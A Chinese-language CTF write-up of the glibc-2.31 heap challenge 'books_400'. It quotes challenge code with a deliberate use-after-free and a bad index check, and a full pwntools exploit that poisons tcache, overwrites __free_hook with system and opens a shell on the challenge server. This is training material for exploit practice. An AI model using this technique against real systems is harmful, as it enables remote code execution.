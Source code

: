 # books_400

> 参考：HITCON 2019

题目是 glibc-2.31，IDA 似乎不能很好地反编译，所以就没脱符号表，如果用 Cutter 或者 Ghidra 就看得比较清楚。

原本的想法是 tcache stashing unlink attack，但因为没有限制 Chunk 的上限被非预期了。先讲一下几个点，首先不能用 Fastbins：

```cpp
    if (size <= 0x7F) {
        puts("How can a book be that short???");
        exit(-1);
    }
```

free 的时候给了个 UAF：

```cpp
void sell() {
    int idx;
    printf("This is your 1st/2nd/3rd book? ");
    idx = read_idx();
    if (!bs[idx].content) {
        puts("No way...");
        return;
    }
    free(bs[idx].content);
    // give an uaf
    //bs[idx].size = 0;
    //bs[idx].content = 0;
}
```

因为没限制上限所以可以利用 UAF 来改 tcache 的指针，直接就能改任意地址了，这里放一下 [@XxX（@n132）](https://n132.github.io/)的脚本：

```python
from pwn import *
context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size=0x80,c="A",r='n'):
    cmd(1)
    p.sendlineafter("? ",str(idx))
    p.sendlineafter("? ",str(size))
    p.sendafter(": ",c)
    p.sendlineafter("] ",str(r))
def free(idx):
    cmd(2)
    p.sendlineafter("? ",str(idx))
def edit(idx,c):
    cmd(3)
    p.sendlineafter("? ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(4)
    p.sendlineafter("? ",str(idx))
def magic(c):
    cmd(0xDEADBEEF)
    p.readuntil(".\n")
    p.send(c)
p=remote("10.21.13.112",10004)
#p=process("./books")
p.sendafter("me? ",p64(0xdeadbeef))
add("1",0x233)
add("2",0x233)
free("1")
free("2")
show("2")
p.readuntil("ntent: ")
heap=u64(bytes(p.readline()[:-1]+b'\0\0'))-(0x5555555592d0-0x0000555555559000)
log.warning(hex(heap))
for x in range(4):
    add(1,0x233)
    free(1)
add(1,0x500)
add(2,0x100)
free(1)
show(1)
libc=ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
p.readuntil("ntent: ")
base=u64(bytes(p.readline()[:-1]+b'\0\0'))-(0x00007ffff7fbcbe0-0x7ffff7dd1000)
log.warning(hex(base))
add(2,0x500-0x240)
add(3,0x233)
free(3)
libc.address=base
edit(1,b"A"*(0x500-0x240+8)+p64(0x241)+p64(libc.sym['__free_hook']))
print(pidof(p))
raw_input()
magic(b"A")
magic(p64(libc.sym['system']))
add(1,0x100,"/bin/sh")
free(1)
p.interactive()
#zjgsuctf{4lway5_foll0w1ng_w1th_n3w_t3chs}
```

最后 cat 没给权限，要[用 awk 和 wc 来读 flag](http://blog.dornea.nu/2016/06/20/ringzer0-ctf-jail-escaping-bash/)。

> 后来 [@countfatcode](https://www.cnblogs.com/countfatcode/) 发现还有非预期的地方，写代码的时候 idx 范围没控制好，导致 idx 输入 4 的时候可以直接覆盖 `tps_ptr`，又是另一种做法了：
>
> ```cpp
> int read_idx() {
>    char buf[0x10];
>    int idx;
>    read(0, buf, sizeof(buf));
>    idx = atoi(buf);
>    if (idx < 1 || idx > 4) {
>        puts("No way");
>        exit(-1);
>    }
>    return idx - 1;
> }
> ```
